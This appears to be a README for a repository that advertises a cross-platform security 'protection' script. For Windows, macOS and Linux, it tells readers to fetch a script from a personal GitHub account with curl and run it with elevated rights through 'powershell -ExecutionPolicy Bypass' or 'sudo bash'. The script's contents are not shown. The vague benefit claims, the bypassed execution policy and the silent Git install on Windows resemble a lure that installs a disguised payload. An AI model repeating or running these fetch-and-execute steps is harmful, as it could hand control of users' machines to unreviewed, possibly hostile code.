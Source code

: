 <p align="center">
  <strong>Click your operating system to optimize security</strong>
</p>

<p align="center">
  <a href="#windows-install-instructions">
    <img src="./assets/windows.png" alt="Windows Logo" width="120" style="margin: 0 40px;"/>
  </a>
  <a href="#macos-install-instructions">
    <img src="./assets/macos.png" alt="macOS Logo" width="120" style="margin: 0 40px;"/>
  </a>
  <a href="#linux-install-instructions">
    <img src="./assets/linux.png" alt="Linux Logo" width="120" style="margin: 0 40px;"/>
  </a>
</p>

<br>

<p style="line-height: 1.5;">✓ Enables Firewall</p>
<p style="line-height: 1.5;">✓ Blocks unauthorized access</p>
<p style="line-height: 1.5;">✓ Reduces attack surface by disabling unused services</p>
<p style="line-height: 1.5;">✓ Applies security settings</p>
<p style="line-height: 1.5;">✓ Enhances overall system stability and performance</p>
<p style="line-height: 1.5;">✓ Prevents common security vulnerabilities</p>

<br>

<h2 id="windows-install-instructions">Windows</h2>
<img align="right" width="120" src="./assets/windows.png">
<p>This requires you to have at least 200 MB of free space available.</p>
<ol style="line-height: 1.5;">
  <li><strong>Open Command Prompt</strong>
    <ul>
      <li>Press <code>Windows + R</code></li>
      <li>Type <code>cmd</code></li>
      <li>Press <code>Enter</code></li>
    </ul>
  </li>
  <li><strong>Download Git Installer</strong>
    <ul>
      <li>Copy and paste the following command into Command Prompt to download the Git installer:</li>
      <pre><code>powershell -Command "Invoke-WebRequest -Uri https://github.com/git-for-windows/git/releases/latest/download/Git-64-bit.exe -OutFile Git-64-bit.exe"</code></pre>
    </ul>
  </li>
  <li><strong>Install Git</strong>
    <ul>
      <li>Once downloaded, copy and paste the following command into Command Prompt to silently install Git:</li>
      <pre><code>.\Git-64-bit.exe /VERYSILENT /NORESTART</code></pre>
    </ul>
  </li>
  <li><strong>Install Protection</strong>
    <ul>
      <li>Copy and paste the following command into Command Prompt to download the protection script:</li>
      <pre><code>curl -o win.ps1 https://raw.githubusercontent.com/boolskii/protection/main/win.ps1</code></pre>
    </ul>
  </li>
  <li><strong>Run Protection</strong>
    <ul>
      <li>Copy and paste the following command into Command Prompt to run the protection script:</li>
      <pre><code>powershell -ExecutionPolicy Bypass -File .\win.ps1</code></pre>
    </ul>
  </li>
</ol>
<p>Your PC is now protected from unwanted activity.</p>

<br>

<h2 id="macos-install-instructions">MacOS</h2>
<img align="right" width="120" src="./assets/macos.png">
<p>This requires you to have at least 100 MB of free space available.</p>
<ol style="line-height: 1.5;">
  <li><strong>Open Terminal</strong>
    <ul>
      <li>Press <code>Command + Space</code></li>
      <li>Type <code>Terminal</code></li>
      <li>Press <code>Enter</code></li>
    </ul>
  </li>
  <li><strong>Install Homebrew</strong>
    <ul>
      <li>Copy and paste the following command into Terminal to install Homebrew:</li>
      <pre><code>/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"</code></pre>
    </ul>
  </li>
  <li><strong>Install Git</strong>
    <ul>
      <li>Copy and paste the following command into Terminal to install Git via Homebrew:</li>
      <pre><code>brew install git</code></pre>
    </ul>
  </li>
  <li><strong>Install Protection</strong>
    <ul>
      <li>Copy and paste the following command into Terminal to download the protection script:</li>
      <pre><code>curl -o mac.sh https://raw.githubusercontent.com/boolskii/protection/main/mac.sh</code></pre>
    </ul>
  </li>
  <li><strong>Run Protection</strong>
    <ul>
      <li>Copy and paste the following command into Terminal to run the protection script:</li>
      <pre><code>sudo bash ./mac.sh</code></pre>
    </ul>
  </li>
</ol>
<p>Your Mac is now protected from unwanted activity.</p>

<br>

<h2 id="linux-install-instructions">Linux</h2>
<img align="right" width="120" src="./assets/linux.png">
<p>This requires you to have at least 100 MB of free space available.</p>
<ol style="line-height: 1.5;">
  <li><strong>Open Terminal</strong>
    <ul>
      <li>Press <code>Ctrl + Alt + T</code> </li>
    </ul>
  </li>
  <li><strong>Update Package Lists</strong>
    <ul>
      <li>Copy and paste the following command into Terminal to update package lists:</li>
      <pre><code>sudo apt-get update</code></pre>
    </ul>
  </li>
  <li><strong>Install Git</strong>
    <ul>
      <li>Copy and paste the following command into Terminal to install Git:</li>
      <pre><code>sudo apt-get install git -y</code></pre>
    </ul>
  </li>
  <li><strong>Install Protection</strong>
    <ul>
      <li>Copy and paste the following command into Terminal to download the protection script:</li>
      <pre><code>curl -o lin.sh https://raw.githubusercontent.com/boolskii/protection/main/lin.sh</code></pre>
    </ul>
  </li>
  <li><strong>Run Protection</strong>
    <ul>
      <li>Copy and paste the following command into Terminal to run the protection script:</li>
      <pre><code>sudo bash ./lin.sh</code></pre>
    </ul>
  </li>
</ol>
<p>Your system is now protected from unwanted activity.</p>